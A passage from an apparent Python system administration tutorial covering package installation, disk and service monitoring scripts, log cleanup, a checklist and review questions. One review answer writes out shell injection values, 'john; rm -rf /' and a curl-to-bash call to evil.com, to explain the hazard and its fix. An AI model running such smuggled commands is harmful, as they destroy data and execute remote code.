1. **Non-Interactive Flags (`-y`)**:
   `apt-get` prompts the terminal: `Do you want to continue? [Y/n]`. In automated Python scripts without an interactive TTY, the process hangs indefinitely waiting for `stdin`. You must pass the `-y` (yes) flag.
2. **Debian Frontend Environment**:
   Some packages (e.g., `wireshark`, `tzdata`, `postfix`) pop up interactive curses configuration dialogs. You must set the environment variable `DEBIAN_FRONTEND=noninteractive`.
3. **Lock File Contention**:
   If another update process is running (e.g., `unattended-upgrades`), `/var/lib/dpkg/lock-frontend` is locked. Python scripts should catch lock errors and retry with exponential backoff.

```python
# Production non-interactive invocation
env = os.environ.copy()
env["DEBIAN_FRONTEND"] = "noninteractive"

subprocess.run(
    ["apt-get", "install", "-y", "nginx"],
    env=env,
    check=True
)
```

---

### 4.3 Multi-Distribution Package Manager Abstraction

In cloud fleets, instances may run Ubuntu (Debian family using `apt`) or Amazon Linux 2023 / RHEL (Fedora family using `dnf`/`yum`). A production Python script should detect the underlying operating system:

```python
import os
import platform
import subprocess

def detect_package_manager() -> str:
    """Identify the package manager of the current Linux host."""
    if os.path.exists("/usr/bin/apt-get"):
        return "apt"
    elif os.path.exists("/usr/bin/dnf"):
        return "dnf"
    elif os.path.exists("/usr/bin/yum"):
        return "yum"
    else:
        raise NotImplementedError("Unsupported Linux distribution")

def install_system_packages(packages: list[str]) -> bool:
    """Idempotently install packages across Debian and RHEL systems."""
    pkg_mgr = detect_package_manager()
    env = os.environ.copy()

    if pkg_mgr == "apt":
        env["DEBIAN_FRONTEND"] = "noninteractive"
        cmd = ["sudo", "apt-get", "install", "-y"] + packages
    elif pkg_mgr in ("dnf", "yum"):
        cmd = ["sudo", pkg_mgr, "install", "-y"] + packages

    print(f"[*] Installing packages using {pkg_mgr}: {packages}")
    result = subprocess.run(cmd, env=env, capture_output=True, text=True)
    
    if result.returncode == 0:
        print("[+] Packages installed successfully.")
        return True
    else:
        print(f"[-] Installation failed: {result.stderr.strip()}")
        return False
```

---

## 🛠️ 5. Practical System Administration Automation Scripts

Below are three complete, production-grade automation scripts designed to solve everyday enterprise SysAdmin challenges.

---

### 5.1 Script 1: Server Disk Usage and Filesystem Health Monitor

Disk exhaustion causes sudden database crashes, broken logging pipelines, and system kernel panics. This script checks filesystem utilization across mounted disks and raises alerts when usage exceeds defined thresholds.

```python
#!/usr/bin/env python3
"""
Disk Capacity & Inode Health Monitor
Audits local filesystems and alerts when storage or inodes exceed safe thresholds.
"""

import shutil
import sys
import subprocess
from datetime import datetime

# Warning and Critical Percentage Thresholds
WARNING_THRESHOLD = 80.0
CRITICAL_THRESHOLD = 90.0

def inspect_disk_usage(mount_point: str = "/") -> dict:
    """Inspect storage statistics using Python's standard library shutil module."""
    total, used, free = shutil.disk_usage(mount_point)
    percent_used = (used / total) * 100
    
    return {
        "mount_point": mount_point,
        "total_gb": round(total / (1024 ** 3), 2),
        "used_gb": round(used / (1024 ** 3), 2),
        "free_gb": round(free / (1024 ** 3), 2),
        "percent_used": round(percent_used, 2)
    }

def inspect_inode_usage(mount_point: str = "/") -> float:
    """Inspect filesystem inode usage via the df -i command."""
    result = subprocess.run(
        ["df", "-i", mount_point],
        capture_output=True,
        text=True,
        check=True
    )
    lines = result.stdout.strip().splitlines()
    if len(lines) >= 2:
        # Columns: Filesystem, Inodes, IUsed, IFree, IUse%, Mounted on
        columns = lines[1].split()
        inode_percent_str = columns[4].replace("%", "")
        return float(inode_percent_str)
    return 0.0

def run_disk_audit(mount_points: list[str]) -> bool:
    """Audit all specified mount points and output status reports."""
    overall_healthy = True
    print(f"[{datetime.now().isoformat()}] --- Storage Health Audit ---")
    
    for mp in mount_points:
        try:
            stats = inspect_disk_usage(mp)
            inode_pct = inspect_inode_usage(mp)
            
            status = "HEALTHY"
            if stats["percent_used"] >= CRITICAL_THRESHOLD or inode_pct >= CRITICAL_THRESHOLD:
                status = "CRITICAL"
                overall_healthy = False
            elif stats["percent_used"] >= WARNING_THRESHOLD or inode_pct >= WARNING_THRESHOLD:
                status = "WARNING"
                overall_healthy = False

            print(f"[{status:<8}] Mount: {stats['mount_point']:<10} "
                  f"Storage: {stats['used_gb']}GB / {stats['total_gb']}GB ({stats['percent_used']}%) "
                  f"Inodes: {inode_pct}%")

        except Exception as err:
            print(f"[ERROR   ] Failed to inspect {mp}: {err}", file=sys.stderr)
            overall_healthy = False

    return overall_healthy

if __name__ == "__main__":
    healthy = run_disk_audit(["/", "/var", "/tmp"])
    sys.exit(0 if healthy else 1)
```

---

### 5.2 Script 2: Systemd Service Health Checker and Auto-Healer

In production Linux environments, critical background services (e.g. `nginx`, `sshd`, `docker`) must remain in an `active (running)` state. This script checks service status and restarts failed services automatically.

```python
#!/usr/bin/env python3
"""
Systemd Service Health Checker and Auto-Remediation Daemon
Checks service states via systemctl and executes automated restarts on failure.
"""

import subprocess
import time
import logging

logging.basicConfig(
    level=logging.INFO,
    format="%(asctime)s [%(levelname)s] %(message)s"
)

CRITICAL_SERVICES = ["ssh", "cron"]

def is_service_active(service_name: str) -> bool:
    """Check if a systemd unit is actively running."""
    cmd = ["systemctl", "is-active", "--quiet", service_name]
    # systemctl is-active returns 0 if active, non-zero if inactive or failed
    result = subprocess.run(cmd)
    return result.returncode == 0

def restart_service(service_name: str) -> bool:
    """Attempt to restart a failed service using sudo systemctl restart."""
    logging.warning(f"Service '{service_name}' is DOWN! Initiating restart...")
    cmd = ["sudo", "systemctl", "restart", service_name]
    result = subprocess.run(cmd, capture_output=True, text=True)
    
    if result.returncode == 0:
        logging.info(f"Service '{service_name}' successfully restarted.")
        return True
    else:
        logging.error(f"Failed to restart '{service_name}': {result.stderr.strip()}")
        return False

def audit_and_remediate(services: list[str]) -> None:
    """Audit all critical services and remediate any degraded units."""
    for service in services:
        if is_service_active(service):
            logging.info(f"Service '{service}' is healthy (active).")
        else:
            restarted = restart_service(service)
            if restarted:
                # Allow 2 seconds for daemon to initialize
                time.sleep(2)
                if is_service_active(service):
                    logging.info(f"Service '{service}' verified healthy after restart.")
                else:
                    logging.critical(f"Service '{service}' remains unhealthy after restart!")

if __name__ == "__main__":
    audit_and_remediate(CRITICAL_SERVICES)
```

---

### 5.3 Script 3: Automated Log Rotation, Archival, and Disk Cleaner

Unchecked application and system logs rapidly consume filesystem space. While `logrotate` handles periodic logs, custom application logs and legacy dump files often require automated maintenance.

```python
#!/usr/bin/env python3
"""
Automated Log Archival and Directory Cleanup Script
Finds files older than retention days, archives them with gzip, and deletes obsolete logs.
"""

import os
import time
import gzip
import shutil
import logging
from pathlib import Path

logging.basicConfig(level=logging.INFO, format="%(asctime)s [%(levelname)s] %(message)s")

def archive_and_cleanup_logs(
    target_dir: str, 
    retention_days: int = 7, 
    purge_days: int = 30
) -> None:
    """
    Compress files older than retention_days.
    Permanently delete files older than purge_days.
    """
    base_path = Path(target_dir)
    if not base_path.exists() or not base_path.is_dir():
        logging.error(f"Target directory '{target_dir}' does not exist.")
        return

    now = time.time()
    retention_seconds = retention_days * 86400
    purge_seconds = purge_days * 86400

    for file_path in base_path.glob("**/*"):
        if not file_path.is_file():
            continue

        file_age = now - file_path.stat().st_mtime

        # Step 1: Purge files exceeding maximum retention
        if file_age > purge_seconds:
            logging.info(f"Purging expired log: {file_path.name} (Age: {round(file_age / 86400)} days)")
            try:
                file_path.unlink()
            except OSError as err:
                logging.error(f"Failed to delete {file_path}: {err}")
            continue

        # Step 2: Compress uncompressed logs older than retention threshold
        if file_age > retention_seconds and not file_path.suffix.endswith(".gz"):
            gz_path = file_path.with_suffix(file_path.suffix + ".gz")
            logging.info(f"Compressing stale log: {file_path.name} -> {gz_path.name}")
            try:
                with file_path.open("rb") as f_in:
                    with gzip.open(gz_path, "wb") as f_out:
                        shutil.copyfileobj(f_in, f_out)
                # Remove original uncompressed file after successful compression
                file_path.unlink()
            except OSError as err:
                logging.error(f"Compression failed for {file_path}: {err}")

if __name__ == "__main__":
    # Test cleanup on a safe temporary log directory
    test_log_dir = "/tmp/app_logs"
    os.makedirs(test_log_dir, exist_ok=True)
    archive_and_cleanup_logs(test_log_dir, retention_days=7, purge_days=30)
```

---

## 📊 6. Comprehensive SysAdmin Comparison Reference

### 6.1 Package Management Across Linux Distributions

| Administrative Task | Debian / Ubuntu (`apt`) | RHEL / CentOS / Amazon Linux 2023 (`dnf`/`yum`) |
| :--- | :--- | :--- |
| **Update repository catalog** | `apt-get update` | `dnf check-update` |
| **Upgrade all packages** | `apt-get upgrade -y` | `dnf upgrade -y` |
| **Install package** | `apt-get install -y <pkg>` | `dnf install -y <pkg>` |
| **Remove package (keep configs)**| `apt-get remove -y <pkg>` | `dnf remove -y <pkg>` |
| **Remove package & configs** | `apt-get purge -y <pkg>` | `dnf erase -y <pkg>` / manual rm |
| **Remove unused dependencies** | `apt-get autoremove -y` | `dnf autoremove -y` |
| **Clean downloaded caches** | `apt-get autoclean` / `clean` | `dnf clean all` |
| **Check if package installed** | `dpkg -s <pkg>` | `rpm -q <pkg>` |

---

### 6.2 Linux User Administration CLI Tools vs. Python Modules

| Operation | Native Linux CLI Binary | Python Automation Equivalent |
| :--- | :--- | :--- |
| **Inspect user details** | `id <username>` or `getent passwd <user>` | `pwd.getpwnam(username)` |
| **Inspect group members** | `getent group <groupname>` | `grp.getgrnam(groupname).gr_mem` |
| **Create user account** | `useradd -m -s /bin/bash <user>` | `subprocess.run(["useradd", "-m", "-s", "/bin/bash", user])` |
| **Modify group membership**| `usermod -aG <groups> <user>` | `subprocess.run(["usermod", "-aG", groups, user])` |
| **Delete user account** | `userdel -r <user>` | `subprocess.run(["userdel", "-r", user])` |
| **Lock user password** | `passwd -l <user>` or `usermod -L <user>` | `subprocess.run(["usermod", "-L", user])` |

---

## 💡 7. SysAdmin Automation Best Practices Checklist

When developing Python scripts for production system administration and DevOps pipelines, ensure compliance with this checklist:

- [ ] **Check Privileges Early**: Always inspect `os.geteuid() == 0` at the very start of scripts that modify users, packages, or services, failing fast with a clear error message.
- [ ] **Enforce `shell=False`**: Never pass concatenated strings to `os.system()` or `subprocess.run(shell=True)`. Always split commands into structured lists of arguments.
- [ ] **Specify Non-Interactive Flags**: Always supply non-interactive flags (`-y`, `--batch`, `DEBIAN_FRONTEND=noninteractive`) to prevent commands from hanging waiting for interactive user terminal input.
- [ ] **Capture and Log Both Streams**: Use `capture_output=True` (or `stdout=subprocess.PIPE, stderr=subprocess.PIPE`) and log both standard output and standard error on failures.
- [ ] **Implement Explicit Timeouts**: Set `timeout=N` on external network or disk calls to prevent deadlocks or frozen processes.
- [ ] **Idempotent Execution**: Verify whether a user, group, directory, or package already exists before attempting creation to allow repeated script runs without errors.
- [ ] **Clean Up Resources**: Ensure temporary files and directories created during script runs are handled using `tempfile` and cleaned up in `finally` blocks.

---

## ❓ 8. Checkpoint Questions & Review

### Question 1 (Slide 33)
**What is system administration?**

> **Answer**: System administration (SysAdmin) is the management, configuration, maintenance, reliability, and security of hardware and software computing systems. It ensures that servers, operating systems, network services, and application environments function smoothly and meet organizational availability and performance requirements.

---

### Question 2 (Slide 33)
**Name common tasks associated with system administration.**

> **Answer**: Common SysAdmin tasks include:
> - Installing, configuring, and upgrading software packages and operating systems.
> - Creating, auditing, managing, and deleting user accounts and group permissions.
> - Monitoring system performance (CPU, memory, disk, network) and service uptime.
> - Performing scheduled data backups and verifying disaster recovery procedures.
> - Automating repetitive operational workflows using scripting languages like Python.
> - Responding to system alerts, security incidents, and unexpected outages.

---

### Question 3 (Slide 33)
**Name the key benefits of system administration.**

> **Answer**: 
> 1. **Increased Efficiency**: Automating administrative operations eliminates human error and accelerates deployment cycles.
> 2. **Proactive Problem Resolution**: Ongoing monitoring detects hardware failures, disk shortages, and memory leaks before they disrupt end users.
> 3. **System Stability & Availability**: Systematic patch management and configuration consistency ensure business services stay operational with minimal downtime.

---

### Question 4
**Why does Python V3 recommend `subprocess.run()` over `os.system()`?**

> **Answer**:
> - `os.system()` passes the entire command string to a system subshell (`/bin/sh -c`), exposing the system to **shell injection** vulnerabilities when untrusted input is included.
> - `os.system()` outputs text directly to the console; it cannot capture standard output or standard error into Python variables for parsing.
> - `os.system()` only returns an encoded 16-bit process exit status, making error inspection difficult.
> - `subprocess.run()` runs commands directly via kernel system calls (`shell=False` by default), captures both `stdout` and `stderr` cleanly in memory, supports timeouts, and integrates with Python's exception handling system via `check=True`.

---

### Question 5
**Explain the security hazard in `os.system("sudo useradd " + username)` and how to fix it.**

> **Answer**:
> If a malicious user supplies an input string containing shell metacharacters such as `john; rm -rf /` or `john && curl evil.com/script | bash`, `os.system()` hands the entire string to the shell. The shell splits the commands at the semicolon `;` or `&&` and executes both commands with elevated `sudo` privileges.
>
> **The Fix**: Use `subprocess.run()` with a list of arguments and `shell=False`:
> ```python
> subprocess.run(["sudo", "useradd", username], check=True)
> ```
> In this approach, the kernel treats `john; rm -rf /` as a single, literal string argument for the username parameter. The `useradd` command simply rejects it as an invalid username, neutralizing the attack.

---

### Question 6
**What is the functional difference between `apt-get remove` and `apt-get --purge remove`?**

> **Answer**:
> - `apt-get remove`: Deletes the application binaries and associated dependencies, but retains user configuration files (such as those in `/etc/`). This allows future re-installations of the package to preserve customized configurations.
> - `apt-get --purge remove` (or `apt-get purge`): Completely removes the package binaries **and** deletes all related configuration files from the system filesystem.

---

### Question 7
**Why does running `update_environment()` with `apt-get update`, `upgrade`, and `dist-upgrade` NOT upgrade a Debian 8 server to Debian 9?**

> **Answer**:
> `apt-get update` only retrieves the latest package lists for the repositories currently configured in `/etc/apt/sources.list`. Even though `dist-upgrade` handles dependency additions and removals intelligently, it only upgrades packages within the distribution repository release currently targeted by those source URLs (e.g. Debian 8 *Jessie*). To upgrade to Debian 9 (*Stretch*), the system administrator must update the repository URLs in `/etc/apt/sources.list` to reference the new release codename before running `dist-upgrade`.
